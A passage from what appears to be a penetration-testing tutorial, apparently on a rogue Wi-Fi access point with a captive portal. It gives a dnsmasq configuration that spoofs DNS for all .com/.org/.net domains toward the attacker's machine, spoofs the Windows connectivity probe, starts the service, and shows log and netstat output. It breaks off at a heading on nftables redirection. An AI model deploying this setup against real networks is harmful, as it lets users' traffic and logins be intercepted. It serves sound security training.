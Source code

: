 {% endcode %}

Configuring **mco-dnsmasq.conf** to also spoof DNS:

```bash
# This should cover most queries
# We can add 'log-queries' to log DNS queries
address=/com/192.168.87.1
address=/org/192.168.87.1
address=/net/192.168.87.1

# Entries for Windows 7 and 10 captive portal detection
address=/dns.msftncsi.com/131.107.255.255
```

{% hint style="warning" %}
When the _EnableActiveProbing_ registry key in _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Services\NlaSvc\Parameters\Internet_ is set to "0", it will disable the check. If this happens, Windows will not detect our captive portal and the user won't be able to login.
{% endhint %}

Staring dnsmasq:

```bash
kali@kali:~$ sudo dnsmasq --conf-file=mco-dnsmasq.conf
```

Confirming dnsmasq started via the _syslog_:

{% code overflow="wrap" %}
```bash
kali@kali:~$ sudo tail /var/log/syslog | grep dnsmasq
Sep 15 19:03:50 kali dnsmasq[18135]: started, version 2.82 cachesize 150
Sep 15 19:03:50 kali dnsmasq[18135]: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN2 DHCP DHCPv6 no-Lua TFTP conntrack ipset auth DNSSEC loop-detect inotify dumpfile
Sep 15 19:03:50 kali dnsmasq-dhcp[18135]: DHCP, IP range 192.168.87.100 -- 192.168.87.199, lease time 12h
...
```
{% endcode %}

We can also use **netstat** to confirm it is listening on port 53 (TCP/UDP) for DNS, and on 67 (UDP) for DHCP:

```bash
kali@kali:~$ sudo netstat -lnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address    Foreign Address    State    PID/Program name
tcp        0      0 0.0.0.0:53       0.0.0.0:*          LISTEN   18135/dnsmasq
tcp6       0      0 :::53            :::*               LISTEN   18135/dnsmasq
udp        0      0 0.0.0.0:53       0.0.0.0:*                   18135/dnsmasq
udp        0      0 0.0.0.0:67       0.0.0.0:*                   18135/dnsmasq
udp6       0      0 :::53            :::*                        18135/dnsmasq
...
```

Using **nftables** to forcefully redirect DNS to us:

